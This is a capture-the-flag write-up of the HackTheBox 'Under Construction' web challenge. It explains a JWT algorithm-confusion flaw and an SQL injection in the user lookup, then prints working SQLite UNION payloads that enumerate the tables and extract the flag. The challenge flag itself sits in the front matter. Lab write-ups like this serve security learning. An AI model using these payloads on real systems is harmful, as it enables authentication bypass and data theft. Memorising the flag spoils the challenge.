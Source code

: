 ```yaml
---
title: Under Construction
description: Under Construction box from HackTheBox write up.
password: 'HTB{d0n7_3xp053_y0ur_publ1ck3y}'
---
```


# Under Construction <a href='/assets/resources/HackTheBox/UnderConstruction-resources.zip' title="Download resources"> :material-folder-zip:{:alt="Download resources"} </a>

## Static analysis

The challenge gives the webpage files so i started checking the code. In the `ìndex.js` file we can see the diferent paths we have: `/`, `/auth` and `/logout`. Everything looks right here so the next thing we can check is the `AuthMiddleware` that is what make sure if a user is logged in and who the user is.

The middleware is checking the cookies for a JWT token that will be decoded using the `JWTHelper` and if the token is right, the application will take the user name from the decoded token and check it in the database using the `DBHelper`. If the user exists the application sends the user to the index and if not it sends an error message. If the the token is incorrect or missing, the application responds with an error or redirecting to the login page respectively.

Let's talk about the helpers. Look's like the `JWTHelper` just contains functions to sign and verify/decode JWT tokens, the thing is that in the `decode` function the application is allowing the `HS256`, a symmetric algorithm, to verify the JWT. This means that we can sign tokens using the public key if we specify `HS256` as the algorithm (**JWT confusion attack**). About the `DBHelper`, it is mostly ok but for the `getUser` function because it is vulnerable to SQL injection. This function is called with the username contained in the JWT token to check if the user exists so we can enumerate the database.

## Attack

I wrote a Python script that generate the JWTs with a SQL injection payload, sends the tokens and parse the responses to make my life easier. We also know that the databse is SQLite (We know what payloads to use).

First to get the tables we can use:
```sqlite
' OR 1=2 UNION SELECT 1, group_concat(tbl_name), 3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -

Result --> flag_storage,users

```

Cool the `flag_storage` table looks promising let's enumerate it:

```sqlite
' OR 1=2 UNION select 1,group_concat(name),3 from pragma_table_info('flag_storage') -- -

Result --> id,top_secret_flaag
```

Now we can just get the flag with:

```sqlite
' OR 1=2 UNION select 1,group_concat(top_secret_flaag),3 from flag_storage -- -
```

